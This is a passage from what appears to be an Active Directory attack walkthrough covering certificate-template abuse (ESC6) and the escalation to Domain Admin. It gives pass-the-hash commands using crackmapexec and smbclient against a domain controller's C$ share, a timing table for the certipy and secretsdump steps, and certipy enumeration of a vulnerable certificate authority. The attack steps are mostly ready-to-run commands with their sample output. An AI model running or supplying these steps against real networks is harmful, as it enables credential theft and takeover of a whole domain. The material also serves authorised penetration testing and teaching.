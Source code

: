 
#### Phase 5: Verify Domain Admin Access

```bash
# List domain admins
crackmapexec smb 192.168.1.10 \
    -u 'administrator' \
    -H '8846f7eaee8fb117ad06bdd830b7586c' \
    -x "net group 'Domain Admins' /domain"

# Output:
# Domain Admins
# ------------------------
# Administrator
# DA-Admin
# ...

# Access C$ on Domain Controller
smbclient //192.168.1.10/C$ \
    -U 'administrator' \
    --pw-nt-hash 8846f7eaee8fb117ad06bdd830b7586c

# Browse DC filesystem
```

✅✅✅ **DOMAIN ADMIN ACHIEVED** ✅✅✅

---

#### Time Breakdown:

```
certipy find (enum):           30 seconds
certipy req (request cert):    10 seconds
certipy auth (authenticate):   15 seconds
secretsdump (dump hashes):     30 seconds
────────────────────────────────────────
Total time to Domain Admin:    ~2 minutes
```

---

### Step 17: ESC6 Exploitation - Abusing CA Flag

**ESC6 = Certificate Authority has `EDITF_ATTRIBUTESUBJECTALTNAME2` enabled**

**Impact:** Can use ANY template (even "User" default) to specify SAN

---

#### Exploitation:

**Step 1: Confirm ESC6**

```bash
certipy find -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -vulnerable

# Look for:
# [!] Certificate Authority 'CORP-DC01-CA' has flag set: User Specified SAN = Enabled
```

---